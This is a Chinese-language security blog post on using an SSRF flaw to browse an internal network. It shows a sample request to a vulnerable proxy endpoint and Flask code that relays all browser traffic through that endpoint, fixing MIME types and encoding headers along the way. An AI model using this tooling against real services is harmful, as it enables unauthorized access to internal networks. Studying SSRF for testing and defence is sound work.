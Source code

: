 ```yaml
---
date: "2020-03-21T00:00:00Z"
description: SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务...
title: SSRF漏洞配合Flask的巧妙利用 - 内网漫游
url: /archivers/2020-03-21/2
---
```


## SSRF 服务器请求伪造

SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

### 常见的功能点

![2020-03-21-16-58-32](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/488f1abdc7ce71395c6adc1eafaec9bc.png)

- Net-NTLM && NTLM Relay
- 获取服务器真实IP
- 端口扫描
- **网页代理**
- ......

### 网页代理 - HTTP Proxy

![2020-03-21-17-01-01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2254f77d861f4e0ed512fb96cbf4e0cc.png)

**客户端应用HTTP代理后，可通过代理服务器访问内网HTTP协议资源**

**而在SSRF场景，需要SSRF具备支持HTTP两大请求方式：GET、POST，且有响应Body**

```
POST /application/services/proxy/doPostAndGet HTTP/1.1
Host: app.domain.com
Connection: keep-alive
Content-Length: XX
Content-Type: application/json
Accept: */*
Referer: http://app.domain.com/application/portal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{
    "url":"http://domain.com/sso?login",
    "method":"post",
    "jsonBody":"{\"username\":\"123456\"}"
}
```


## Flask 框架

![2020-03-21-17-02-11](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d583d5996730b6dedece0d0a37293330.png)


Flask是一个用Python编写的Web应用程序框架，它基于Werkzeug WSGI工具包和Jinja2模板引擎。

Flask也被称为“microframework” ，因为它使用简单的核心，用extension增加其他功能，它没有默认使用的数据库、窗体验证工具。

```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello, World!'
```

![2020-03-21-17-02-36](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/bd5986bb7d7072741938d609bcbcbbac.png)

```
$ export FLASK_APP=hello.py
$ python -m flask run
 * Running on http://127.0.0.1:5000/
```
### Flask 框架的请求流程

1. befor_first_request
2. befor_request
3. after_request
4. teardown_request → 异常处理
5. after_this_request

![2020-03-21-17-03-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/aa6371f165a89586b6b27e416d6140aa.png)

```python
from flask import Flask, request, Response
import requests
app = Flask(__name__)

@app.before_request
def _proxy(*args, **kwargs):
    resp = requests.request(
        method=request.method,
        url=request.url,
        headers={key: value for (key, value) in request.headers},
        data=request.get_data(),
        cookies=request.cookies,
        allow_redirects=False)

    excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
    headers = [(name, value) for (name, value) in resp.raw.headers.items()
               if name.lower() not in excluded_headers]

    response = Response(resp.content, resp.status_code, headers)
    return response
if __name__ == "__main__":
    app.run(debug=True)
```

Flask的默认端口是：5000

![2020-03-21-17-03-33](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/811e55d62514ad3fde7ccac72b925cf3.png)

插件名称：SwitchyOmega

![2020-03-21-17-03-48](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ce2bbd6872539ded588a40dc94d5e7f3.png)

通过把代理服务器设置为5000（Flask默认）端口，浏览器的所有请求都会经过这五个装饰器，在每个装饰器中，可以写自己的检测规则。由于许多的SSRF漏洞接口返回的Content-Type始终都是一样的，因此会产生图片、JS等静态文件无法加载，下面我们将解决这个问题。

### 解决文件类型问题

遇到这个问题，首先分析浏览器为什么无法加载。

1. SSRF漏洞接口返回的Content-Type是Json，那么我们还需要将Json转化为一个字典，把DATA取出。
2. 根据SSRF漏洞请求的URI来定义MIME Type，Response返回对应的MIME Type即可解决

```python
def get_filetype(url):
    content_type = 'text/html'
    response_mimetype = {
        '.png':'image/png',
        '.js':'application/javascript',
        '.jpg':'image/jpeg',
        '.gif': 'image/gif',
        '.jpeg':'image/jpeg',
        '.ico':'image/x-icon',
        '.css':'text/css',
        '.svg':'image/svg+xml',
    }
    disassembled = urlparse(url)
    filename, file_ext = splitext(basename(disassembled.path))
    content_type = response_mimetype.get(file_ext, 'text/html')
    return content_type
```

这里定义了一些常见的MIME类型，通过截取URI的文件扩展名来找到对应的MIME类型，默认找不到就以HTML返回，不知道还有没有更赞的办法，如果有欢迎分享。

### Content-Encoding问题

Accept-Encoding 和Content-Encoding是HTTP中用来对采用哪种编码格式传输正文进行协定的一对头部字段。

通过SSRF漏洞接口返回的通常可能是附带Content-Encoding头的响应，但与SSRF目标返回的不匹配，会造成网页展示不完全的情况。（本质上是接口取回的内容已经是解码后的，但接口本身可能又有编码头）

```python
excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
        headers = [(name, value) for (name, value) in resp.raw.headers.items()
                   if name.lower() not in excluded_headers]
```

这里的解决方式是剔除编码头 Content-Encoding。